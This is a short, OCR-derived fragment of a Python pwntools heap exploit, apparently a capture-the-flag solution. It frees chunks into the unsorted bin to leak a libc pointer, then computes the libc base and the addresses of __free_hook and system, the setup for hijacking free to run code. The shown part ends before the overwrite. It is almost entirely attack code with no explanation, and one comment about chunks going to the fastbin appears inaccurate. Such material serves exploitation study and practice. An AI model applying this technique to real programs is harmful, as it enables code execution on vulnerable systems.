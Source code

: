 ```c

    add(i, 0x88)# malloc(0,1,2,3,4,5,6)

add(7, 0x88)#malloc(7)

add(8, 0x38)#malloc(8)

  

for i in range(7):

    free(i)#free(0,1,2,3,4,5,6) go in fastbin

  

free(7)#free(7) go in unsortedbin

for i in range(7):

    add(i, 0x88)#malloc(0,1,2,3,4,5,6) go back

  

add(7, 0x18)#malloc(7)

# gdb.attach(file)

  

show(7)

file.recvuntil("Content: ")

  
  
  

# libc_offset = u64(file.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))

# print(hex(libc_offset))

# libc_base = libc_offset - 0x3EBD20

# malloc_hook = libc_base + libc.sym['__malloc_hook']

  

libc_offset0 = u64(file.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))

libc_libc=libc_offset0-240

libc_base = libc_libc - libc.sym['__malloc_hook']

  

print(hex(libc_base))

  

free_hook = libc_base + libc.sym['__free_hook']

system_addr = libc_base + libc.sym['system']

```